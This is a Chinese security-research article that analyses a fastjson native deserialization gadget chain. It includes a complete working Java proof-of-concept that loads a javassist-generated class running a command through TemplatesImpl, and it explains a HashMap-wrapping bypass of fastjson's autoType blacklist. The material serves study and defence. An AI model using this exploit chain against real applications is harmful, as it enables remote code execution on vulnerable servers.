# fastjson原生链分析-先知社区

> **来源**: https://xz.aliyun.com/news/17659  
> **文章ID**: 17659

---

# fastjson 原生链

## 前言

说起 fastjson 反序列化，大部分的利用都是从 @type 把 json 串解析为 java 对象，在构造方法和 setter、getter 方法中，做一些文件或者命令执行的操作。当然，在 fastjson 的依赖包中，也存在着像 CC 链 一样的利用的方式，从 readOject 出发，达到命令执行的效果

在 fasjton 中 可以序列化的类有

* com.alibaba.fastjson.JSONException
* com.alibaba.fastjson.JSONPathException
* com.alibaba.fastjson.JSONArray
* com.alibaba.fastjson.JSONObject



## POC

适用版本 1.2.48 - 2.0.26

依赖

```
 <!-- 添加 javassist 依赖 -->
    <dependency>
        <groupId>org.javassist</groupId>
        <artifactId>javassist</artifactId>
        <version>3.28.0-GA</version>
    </dependency>

 <dependency>
      <groupId>com.alibaba</groupId>
      <artifactId>fastjson</artifactId>
      <version>1.2.83</version>
    </dependency>
```

```
package com.lingx5.fastjson2;

import com.alibaba.fastjson.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;

public class FastjsonSer {
    // 利用 javassist 生成恶意类字节码
    public static byte[] getTemplates() throws Exception {
        ClassPool ctClass = ClassPool.getDefault();
        CtClass evil = ctClass.makeClass("Evil");
        evil.setSuperclass(ctClass.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        evil.makeClassInitializer().insertBefore("Runtime.getRuntime().exec("calc");");
        return evil.toBytecode();
    }
    // 封装 setFieldValue 方法，用来反射设置字段值
    public static void setFieldValue(Object obj,String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        byte[] code = getTemplates();

        //装载Template
        TemplatesImpl template = new TemplatesImpl();
        setFieldValue(template, "_bytecodes", new byte[][] {code});
        setFieldValue(template, "_name", "Evil");


        JSONArray jsonArray = new JSONArray();
        jsonArray.add(template);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        setFieldValue(badAttributeValueExpException, "val", jsonArray);

        HashMap hashMap = new HashMap();
        hashMap.put(template, badAttributeValueExpException);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(hashMap);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        try{
            Object o = ois.readObject();
        }catch (Exception e){
        }
        while(true){}
    }
}
```

> 当然 你也可以不使用 javassist 动态生成类的字节码，把编译好的恶意 class 文件的二进制数组，显示赋值给 `_bytecodes` 变量即可

## 分析

先解释一下这个 POC

> getTemplates 方法 ，是使用 javassist 生成了一个继承 AbstractTranslet 的恶意类名字是 Evil，在静态代码块里放置了执行计算器的恶意代码 方法返回恶意类的字节码
>
> 在 main 方法中 创建了 TemplatesImpl 实例，利用它类加载的能力来实例化恶意类，从而执行代码。
>
> 因为 JSONArray 实现了 serialize 接口，是可以实现序列化和反序列化的，找到了 BadAttributeValueExpException 的 readObject()方法，执行 JSON 的 toString()，调用任意类的 getter 方法，这里选择的是 TemplateImpl 类，因为他的getter方法具有类加载和初始化的能力

我们可以利用 arthas 把这个类从内存里 dump 下来看一下，这是工具的官方教程：[快速入门 | arthas](https://arthas.aliyun.com/doc/quick-start.html)

为了可以使用工具注入这个线程，我们在代码的尾部加上 `while(true){}` 循环，让这个代码运行不终止



```
 jad Evil
```



主要调用链

```
javax.management.BadAttributeValueExpException#readObject
    com.alibaba.fastjson.JSON#toString()
        com.alibaba.fastjson.JSON#toJSONString()
            com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties
```

这里传入的是 JSONArray 对象，但是执行的是 JSON#toString() ，是因为 JSONArray 没有重写 toString() 方法，所以会执行父类的方法。我们都知道 JSON#toJSONString() 就是把 java 对象序列化为 json 串的方法，会自动调用 get 方法，后续的调用就是 在 fastjson1.2.24 的过程一样了

## 执行结果

毫无疑问肯定是可以实现代码执行的



## 问题

这里有几个问题油然而生

1. JSON 的 toString() 是怎么样去执行 getter 方法的？
2. 入口是 BadAttributeValueExpException#readOject 方法，为什么还要用 HashMap 做一层封装呢？

我们先来看问题一

### getter 方法的执行

实际上我们在 idea 里面调试是调试不到的，在调用栈中看到 `com.alibaba.fastjson.serializer.ASMSerializer_1_TemplatesImpl.write(Unknown Source:-1)` 这其实就表示这个类是由运行时动态生成的，并无显示调用



调用链

```
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:605)
at com.alibaba.fastjson.serializer.ASMSerializer_1_TemplatesImpl.write(Unknown Source:-1)
at com.alibaba.fastjson.serializer.ListSerializer.write(ListSerializer.java:135)
at com.alibaba.fastjson.serializer.JSONSerializer.write(JSONSerializer.java:312)
at com.alibaba.fastjson.JSON.toJSONString(JSON.java:1077)
at com.alibaba.fastjson.JSON.toString(JSON.java:1071)
at javax.management.BadAttributeValueExpException.readObject(BadAttributeValueExpException.java:86)
```

因为 fastjson 在这一部分使用了 asm 技术来提升性能，我们只能利用一些 heapdump 工具来分析

而 `ASMSerializer_1_TemplatesImpl` 这个类很长，看到调用的其实是他的 write 方法，我们 dump 一个 write 方法分析就好

```
jad com.alibaba.fastjson.serializer.ASMSerializer_1_TemplatesImpl write
```

dump 的 ASMSerializer\_1\_TemplatesImpl 类 write 方法

```
public void write(JSONSerializer jSONSerializer, Object object, Object object2, Type type, int n) throws IOException {
    ObjectSerializer objectSerializer;
    if (object == null) {
        jSONSerializer.writeNull();
        return;
    }
    SerializeWriter serializeWriter = jSONSerializer.out;
    if (!this.writeDirect(jSONSerializer)) {
        this.writeNormal(jSONSerializer, object, object2, type, n);
        return;
    }
    if (serializeWriter.isEnabled(32768)) {
        this.writeDirectNonContext(jSONSerializer, object, object2, type, n);
        return;
    }
    TemplatesImpl templatesImpl = (TemplatesImpl)object;
    if (this.writeReference(jSONSerializer, object, n)) {
        return;
    }
    if (serializeWriter.isEnabled(0x200000)) {
        this.writeAsArray(jSONSerializer, object, object2, type, n);
        return;
    }
    SerialContext serialContext = jSONSerializer.getContext();
    jSONSerializer.setContext(serialContext, object, object2, 0);
    int n2 = 123;
    String string = "outputProperties";
    // 调用 getOutputProperties() 方法
    Object object3 = templatesImpl.getOutputProperties();
    if (object3 == null) {
        if (serializeWriter.isEnabled(964)) {
            serializeWriter.write(n2);
            serializeWriter.writeFieldNameDirect(string);
            serializeWriter.writeNull(0, 0);
            n2 = 44;
        }
    } else {
        serializeWriter.write(n2);
        serializeWriter.writeFieldNameDirect(string);
        if (object3.getClass() == Properties.class) {
            if (this.outputProperties_asm_ser_ == null) {
                this.outputProperties_asm_ser_ = jSONSerializer.getObjectWriter(Properties.class);
            }
            if ((objectSerializer = this.outputProperties_asm_ser_) instanceof JavaBeanSerializer) {
                ((JavaBeanSerializer)objectSerializer).write(jSONSerializer, object3, string, this.outputProperties_asm_fieldType, 0);
            } else {
                objectSerializer.write(jSONSerializer, object3, string, this.outputProperties_asm_fieldType, 0);
            }
        } else {
            jSONSerializer.writeWithFieldName(object3, string, this.outputProperties_asm_fieldType, 0);
        }
        n2 = 44;
    }
    string = "stylesheetDOM";
    if (!serializeWriter.isEnabled(0x2000000)) {
        // 调用getStylesheetDOM() 方法
        object3 = templatesImpl.getStylesheetDOM();
        if (object3 == null) {
            if (serializeWriter.isEnabled(964)) {
                serializeWriter.write(n2);
                serializeWriter.writeFieldNameDirect(string);
                serializeWriter.writeNull(0, 0);
                n2 = 44;
            }
        } else {
            serializeWriter.write(n2);
            serializeWriter.writeFieldNameDirect(string);
            if (object3.getClass() == DOM.class) {
                if (this.stylesheetDOM_asm_ser_ == null) {
                    this.stylesheetDOM_asm_ser_ = jSONSerializer.getObjectWriter(DOM.class);
                }
                if ((objectSerializer = this.stylesheetDOM_asm_ser_) instanceof JavaBeanSerializer) {
                    ((JavaBeanSerializer)objectSerializer).write(jSONSerializer, object3, string, this.stylesheetDOM_asm_fieldType, 0);
                } else {
                    objectSerializer.write(jSONSerializer, object3, string, this.stylesheetDOM_asm_fieldType, 0);
                }
            } else {
                jSONSerializer.writeWithFieldName(object3, string, this.stylesheetDOM_asm_fieldType, 0);
            }
            n2 = 44;
        }
    }
    string = "transletIndex";
    // 调用getTransletIndex() 方法
    int n3 = templatesImpl.getTransletIndex();
    serializeWriter.writeFieldValue((char)n2, string, n3);
    n2 = 44;
    if (n2 == 123) {
        serializeWriter.write(123);
    }
    serializeWriter.write(125);
    jSONSerializer.setContext(serialContext);
}
```

可以发现，他会遍历调用所有实现了 getter 方法属性的 getter 方法 分别在 28 、56、84 行，我做了注释



而他调用 getOutputProperties() 方法时，就会触发我们的恶意类加载进 jvm，从而实现恶意代码执行

### HashMap 封装的巧用

其实用 HashMap 封装，是使用了一定的绕过技巧。我们都知道 fastjson 在很早就把 TemplateImpl 这个类给加进 checkAutoType 的黑名单了 直接使用 `BadAttributeValueExpException#readOject 方法` 进行反序列化，会被拦截

我们可以测试一下

```
package com.lingx5.fastjson2;

import com.alibaba.fastjson.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;

public class FastjsonSer {
    // 利用 javassist 生成恶意类字节码
    public static byte[] getTemplates() throws Exception {
        ClassPool ctClass = ClassPool.getDefault();
        CtClass evil = ctClass.makeClass("Evil");
        evil.setSuperclass(ctClass.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        evil.makeClassInitializer().insertBefore("Runtime.getRuntime().exec("calc");");
        return evil.toBytecode();
    }
    // 封装 setFieldValue 方法，用来反射设置字段值
    public static void setFieldValue(Object obj,String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        byte[] code = getTemplates();

        //装载Template
        TemplatesImpl template = new TemplatesImpl();
        setFieldValue(template, "_bytecodes", new byte[][] {code});
        setFieldValue(template, "_name", "Evil");


        JSONArray jsonArray = new JSONArray();
        jsonArray.add(template);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        setFieldValue(badAttributeValueExpException, "val", jsonArray);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        // 直接写入 
        oos.writeObject(badAttributeValueExpException);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        try{
            Object o = ois.readObject();
        }catch (Exception e){
            e.printStackTrace();
        }
        //            while(true){}
    }
}
```

我们在 45 行 改变了变量

这段代码就是使用了 badAttributeValueExpException 直接进行反序列化，毫无疑问，抛出 `autoType is not support` 异常



我们在反序列化的时候，就经常碰到 checkAutoType 拦截我们的 @type 的类，那么序列化 又是为什么会执行 checkAutoType 呢？

这里需要我们了解 java 的反序列化流程，可以参考这篇文章：[Java 反序列化之 readObject 分析 | Kaibro's blog](https://blog.kaibro.tw/2020/02/23/Java反序列化之readObject分析/)

#### BadAttributeValueExpException 反序列化流程

首先我们肯定是要进入 java.io.ObjectInputStream#readObject 方法的，里面调用 readObject0() 方法



步入，因为我们的 badAttributeValueExpException 对象，是普通对象类型 会进入 TC\_OBJECT 分支



这里的几个分支 简单说一下

* `TC_OBJECT`: 表示流中接下来是一个新的普通对象实例。会调用 `readOrdinaryObject()`。
* `TC_CLASS`: 表示流中接下来是一个 `java.lang.Class` 对象。会调用 `readClass()`。
* `TC_CLASSDESC`: 表示流中接下来是一个 **类描述符** (`ObjectStreamClass`) 的数据。会调用 `readClassDesc()`。
* `TC_PROXYCLASSDESC`: 表示流中接下来是一个动态代理类的描述符。会调用 `readProxyDesc()`。
* `TC_STRING`, `TC_LONGSTRING`: 表示字符串。会调用 `readString()` 或 `readLongUTF()`。
* `TC_ARRAY`: 表示数组。会调用 `readArray()`。
* `TC_ENUM`: 表示枚举常量。会调用 `readEnum()`。
* `TC_NULL`: 表示一个 `null` 引用。直接返回 `null`。
* `TC_REFERENCE`: 表示对流中先前已读取对象的 **反向引用 (句柄)**。会调用 `readHandle()` 来获取缓存的对象。
* `TC_EXCEPTION`: 表示序列化的异常。会调用 `readFatalException()`。
* `TC_BLOCKDATA`, `TC_BLOCKDATALONG`: 表示原始数据块（通常在自定义 `readObject` 方法中使用）。会调用 `readBlockHeader()`。
* `TC_RESET`: 表示流重置标记。会处理流状态重置。
* `TC_ENDBLOCKDATA`: 表示原始数据块的结束。

跟如 readOrdinaryObject() 方法 ，它会调用 `readClassDesc()` 来获取对象的类信息 (`ObjectStreamClass`)



跟进 readClassDesc 方法

首先读取 一个类描述符



根据描述符，进入 `case TC_CLASSDESC` 分支



继续跟 readNonProxyDesc 方法，它就是调用 `readClassDescriptor()` 从流中读取序列化的 `ObjectStreamClass` 数据。



`readClassDescriptor()` 会去调用，`readNonProxy()` 方法，读取 `类名` , `serialVersionUID` , `标志位` , `字段数量 类型和名称` 等信息，最后封装为 ObjectStreamClass 对象，赋值给 readDesc 变量

摘下来 看看这个 `readNonProxy()` 方法

```
/**
 * 从给定的输入流中读取非代理类描述符信息。
 * 生成的类描述符并非完全功能性的，仅能作为 ObjectInputStream.resolveClass()
 * 和 ObjectStreamClass.initNonProxy() 方法的输入。
 * 
 * @param in 输入流，用于读取类描述符信息
 * @throws IOException 如果在读取过程中发生I/O错误
 * @throws ClassNotFoundException 如果无法找到对应的类
 */
void readNonProxy(ObjectInputStream in)
    throws IOException, ClassNotFoundException
{
    // 从输入流中读取类名
    name = in.readUTF();
    // 从输入流中读取序列化ID，并将其包装为Long对象
    suid = Long.valueOf(in.readLong());
    // 设置isProxy标志为false，表示这不是一个代理类描述符
    isProxy = false;

    // 从输入流中读取类描述符标志
    byte flags = in.readByte();
    // 根据标志判断该类是否具有writeObject方法
    hasWriteObjectData =
        ((flags & ObjectStreamConstants.SC_WRITE_METHOD) != 0);
    // 根据标志判断该类是否使用块数据模式
    hasBlockExternalData =
        ((flags & ObjectStreamConstants.SC_BLOCK_DATA) != 0);
    // 根据标志判断该类是否为Externalizable类型
    externalizable =
        ((flags & ObjectStreamConstants.SC_EXTERNALIZABLE) != 0);
    // 检查标志冲突：类不能同时为Externalizable和Serializable
    boolean sflag =
        ((flags & ObjectStreamConstants.SC_SERIALIZABLE) != 0);
    if (externalizable && sflag) {
        throw new InvalidClassException(
            name, "可序列化和外部化标志冲突");
    }
    // 综合判断类是否为可序列化类型
    serializable = externalizable || sflag;
    // 根据标志判断该类是否为枚举类型
    isEnum = ((flags & ObjectStreamConstants.SC_ENUM) != 0);
    // 枚举类型的序列化ID必须为0，否则抛出异常
    if (isEnum && suid.longValue() != 0L) {
        throw new InvalidClassException(name,
            "枚举描述符具有非零的serialVersionUID: " + suid);
    }

    // 从输入流中读取字段数量
    int numFields = in.readShort();
    // 枚举类型的字段数量必须为0，否则抛出异常
    if (isEnum && numFields != 0) {
        throw new InvalidClassException(name,
            "枚举描述符具有非零字段数: " + numFields);
    }
    // 初始化字段数组，如果字段数量为0，则使用NO_FIELDS常量
    fields = (numFields > 0) ?
        new ObjectStreamField[numFields] : NO_FIELDS;
    // 遍历读取每个字段的信息
    for (int i = 0; i < numFields; i++) {
        char tcode = (char) in.readByte();
        String fname = in.readUTF();
        String signature = ((tcode == 'L') || (tcode == '[')) ?
            in.readTypeString() : new String(new char[] { tcode });
        try {
            // 创建字段描述符对象
            fields[i] = new ObjectStreamField(fname, signature, false);
        } catch (RuntimeException e) {
            // 如果创建字段描述符时发生异常，抛出InvalidClassException
            throw (IOException) new InvalidClassException(name,
                "字段描述符无效: " + fname).initCause(e);
        }
    }
    // 计算字段偏移量
    computeFieldOffsets();
}
```

我们回到 `readNonProxy()` 方法，调用 resolveClass() 方法



resolveClass() 方法 直接 Class.forName() 返回类了



接着 会去做一次 JEP290 的检查



然后调用 `initNonProxy()` 进行一列的初始化，最后 return 返回

